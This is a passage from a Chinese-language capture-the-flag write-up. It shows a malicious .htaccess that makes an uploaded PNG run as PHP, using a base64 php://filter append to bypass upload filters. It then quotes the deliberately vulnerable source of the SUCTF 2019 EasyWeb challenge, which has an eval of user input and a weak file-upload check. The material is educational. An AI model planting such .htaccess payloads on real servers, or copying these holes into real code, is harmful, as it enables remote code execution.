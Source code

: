然后上传我们的 .htaccess 解析图片马即可：

```
#define width 1337
#define height 1337
AddType application/x-httpd-php images.png    # 将images.png解析为 PHP 文件
php_value auto_append_file "php://filter/convert.base64-decode/resource=images.png"
```

### <a class="reference-link" name="%5BSUCTF%202019%5DEasyWeb"></a>[SUCTF 2019]EasyWeb

进入题目，给出源码：

```
&lt;?php
function get_the_flag()`{`
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir))`{`
    mkdir($userdir);
    `}`
    if(!empty($_FILES["file"]))`{`
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '&lt;?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    `}`
`}`

$hhh = @$_GET['_'];

if (!$hhh)`{`
    highlight_file(__FILE__);
`}`

if(strlen($hhh)&gt;18)`{`
    die('One inch long, one inch strong!');
`}`

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&amp;.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)&gt;12) die("Almost there!");

eval($hhh);
?&gt;
```
